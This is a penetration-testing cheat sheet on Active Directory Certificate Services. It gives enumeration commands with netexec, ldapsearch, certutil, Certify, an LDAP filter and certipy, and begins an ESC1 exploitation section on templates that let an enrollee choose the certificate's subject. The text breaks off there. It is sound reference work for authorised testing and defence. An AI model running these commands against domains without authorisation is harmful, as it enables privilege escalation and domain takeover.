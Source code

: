 # Active Directory - Certificate Services

Active Directory Certificate Services (AD CS) is a Microsoft Windows server role that provides a public key infrastructure (PKI). It allows you to create, manage, and distribute digital certificates, which are used to secure communication and transactions across a network. 


## ADCS Enumeration

* netexec: `netexec ldap domain.lab -u username -p password -M adcs`
* ldapsearch: `ldapsearch -H ldap://dc_IP -x -LLL -D 'CN=<user>,OU=Users,DC=domain,DC=local' -w '<password>' -b "CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=CONFIGURATION,DC=domain,DC=local" dNSHostName`
* certutil: `certutil.exe -config - -ping`, `certutil -dump`


## Certificate Enrollment

* DNS required (`CT_FLAG_SUBJECT_ALT_REQUIRE_DNS` or `CT_FLAG_SUBJECT_ALT_REQUIRE_DOMAIN_DNS`): only principals with their `dNSHostName` attribute set can enroll.
  * Active Directory Users cannot enroll in certificate templates requiring `dNSHostName`. 
  * Computers will get their `dNSHostName` attribute set when you **domain-join** a computer, but the attribute is null if you simply create a computer object in AD. 
  * Computers have validated write to their `dNSHostName` attribute meaning they can add a DNS name matching their computer name.

* Email required (`CT_FLAG_SUBJECT_ALT_REQUIRE_EMAIL` or `CT_FLAG_SUBJECT_REQUIRE_EMAIL`): only principals with their `mail` attribute set can enroll unless the template is of schema version 1.
  * By default, users and computers do not have their `mail` attribute set, and they cannot modify this attribute themselves.
  * Users might have the `mail` attribute set, but it is rare for computers.


## ESC1 - Misconfigured Certificate Templates

> Domain Users can enroll in the **VulnTemplate** template, which can be used for client authentication and has **ENROLLEE_SUPPLIES_SUBJECT** set. This allows anyone to enroll in this template and specify an arbitrary Subject Alternative Name (i.e. as a DA). Allows additional identities to be bound to a certificate beyond the Subject.

**Requirements**

* Template that allows for AD authentication
* **ENROLLEE_SUPPLIES_SUBJECT** flag
* [PKINIT] Client Authentication, Smart Card Logon, Any Purpose, or No EKU (Extended/Enhanced Key Usage) 


**Exploitation**

* Use [Certify.exe](https://github.com/GhostPack/Certify) to see if there are any vulnerable templates
    ```ps1
    Certify.exe find /vulnerable
    Certify.exe find /vulnerable /currentuser
    # or
    PS> Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=lab,DC=local'
    # or
    certipy 'domain.local'/'user':'password'@'domaincontroller' find -bloodhound
